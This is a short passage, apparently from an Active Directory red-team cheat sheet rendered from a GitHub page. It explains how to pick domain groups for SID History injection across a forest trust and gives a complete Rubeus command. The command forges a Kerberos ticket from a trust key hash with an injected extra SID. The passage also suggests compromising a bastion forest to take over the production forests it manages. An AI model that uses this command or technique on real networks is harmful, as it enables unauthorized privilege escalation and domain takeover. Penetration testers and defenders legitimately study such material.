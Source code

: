 - Find Interesting Domain Groups with `SID-extention>1000` that could be used for `SID History` injection, in order to obtain the privileges of that group on the target domain. In order to abuse that, we will need the `targetdomain$` credentials of the compromised domain.
  `.\Rubeus.exe golden /rc4:629b1eaa7ec6cfe2f4943a853ad6b36b /domain:eu.local /sid:S-1-5-21-3657428294-2017276338-1274645009 /sids:S-1-5-21-4066061358-3942393892-617142613-1103 /user:Administrator /service:krbtgt /target:euvendor.local /nowrap`
#### Bastion Forests
- Look for a way to compromise the **Bastion (Red)** forest in order to easily gain access over all the managed Production forests.